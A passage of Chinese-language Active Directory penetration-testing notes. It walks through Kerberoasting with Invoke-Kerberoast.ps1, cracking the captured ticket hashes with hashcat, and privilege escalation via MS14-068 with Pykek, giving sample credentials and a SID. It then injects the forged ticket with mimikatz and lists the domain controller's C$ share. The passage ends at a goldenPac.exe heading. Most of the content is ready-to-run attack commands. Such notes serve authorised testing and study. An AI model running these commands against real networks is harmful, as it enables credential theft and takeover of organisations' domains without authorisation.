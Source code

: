 


- 或者使用[Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921#diff-d214854c3756868714d19040048ea71c65102d43911fb99ad6ff568bd930bd05)
```cpp
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast
```
会返回所有信息
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1610207139166-24f631ce-fcc6-48eb-bc54-22de06381190.png#align=left&display=inline&height=643&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1286&originWidth=1762&size=388398&status=done&style=none&width=881)
或者指定寻找高权限用户
```cpp
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```


hashcat破解
```cpp
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```


## 域内MS14-068提权
### Pykek


来源:[https://github.com/uknowsec/Active-Directory-Pentest-Notes/blob/master/Notes/%E5%9F%9F%E6%B8%97%E9%80%8F-MS14-068.md](https://github.com/uknowsec/Active-Directory-Pentest-Notes/blob/master/Notes/%E5%9F%9F%E6%B8%97%E9%80%8F-MS14-068.md)


MS14-068对应的补丁为KB3011780，可在域控上通过systeminfo查看是否安装此补丁。
Pykek工具利用漏洞
```
MS14-068.exe
```
```
MS14-068.exe -u sqladmin@0day.org -p admin!@#45 -s S-1-5-21-1812960810-2335050734-3517558805-1142 -d OWA2010SP3.0day.org
```


-u 域账号+@+域名称，这里是jerry+@+rootkit.org


-p 为当前用户的密码，即jerry的密码


-s为jerry的SID值，可以通过whoami/all来获取用户的SID值


-d为当前域的域控
脚本执行成功会在当前目录下生成一个ccache文件。


利用:
```
mimikatz
klist purge
kerberos::ptc TGT_sqladmin@0day.org.ccache
```
访问域控:
```
dir \\OWA2010SP3.0day.org\c$
```
### goldenPac.exe
